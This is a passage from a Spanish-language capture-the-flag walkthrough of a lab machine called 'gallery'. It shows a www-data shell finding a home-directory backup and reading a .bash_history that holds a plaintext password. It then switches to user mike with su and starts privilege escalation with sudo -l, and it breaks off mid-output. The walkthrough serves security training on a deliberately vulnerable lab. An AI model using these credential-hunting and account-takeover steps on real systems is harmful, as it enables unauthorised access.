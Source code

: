 ```bash
www-data@gallery:/var/backups$ cd /var/backups/
www-data@gallery:/var/backups$ ls -la
total 60
drwxr-xr-x  3 root root  4096 Mar  2 21:14 .
drwxr-xr-x 13 root root  4096 May 20  2021 ..
-rw-r--r--  1 root root 34789 Feb 12  2022 apt.extended_states.0
-rw-r--r--  1 root root  3748 Aug 25  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root  3516 May 21  2021 apt.extended_states.2.gz
-rw-r--r--  1 root root  3575 May 20  2021 apt.extended_states.3.gz
drwxr-xr-x  5 root root  4096 May 24  2021 mike_home_backup
www-data@gallery:/var/backups$ 
```
Ingresemos al directorio para ver que archivos tiene

```bash
www-data@gallery:/var/backups$ cd mike_home_backup/
www-data@gallery:/var/backups/mike_home_backup$ ls -la
total 36
drwxr-xr-x 5 root root 4096 May 24  2021 .
drwxr-xr-x 3 root root 4096 Mar  2 21:14 ..
-rwxr-xr-x 1 root root  135 May 24  2021 .bash_history
-rwxr-xr-x 1 root root  220 May 24  2021 .bash_logout
-rwxr-xr-x 1 root root 3772 May 24  2021 .bashrc
drwxr-xr-x 3 root root 4096 May 24  2021 .gnupg
-rwxr-xr-x 1 root root  807 May 24  2021 .profile
drwxr-xr-x 2 root root 4096 May 24  2021 documents
drwxr-xr-x 2 root root 4096 May 24  2021 images
www-data@gallery:/var/backups/mike_home_backup$ 
```
Si leemos el .bash_history vemos la contraseña del usuario mike en texto claro
```bash
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history 
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```
Migremos a este usuario usando esta contraseña
```bash
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password: 
mike@gallery:/var/backups/mike_home_backup$ whoami
mike
mike@gallery:/var/backups/mike_home_backup$ 
```
## Escalada De Privilegios
Si vemos los privilegios que tenemos a nivel de sudoers podemos ejecutar un script de bash como root sin proporcionar contraseña
```bash
mike@gallery:/var/backups/mike_home_backup$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
```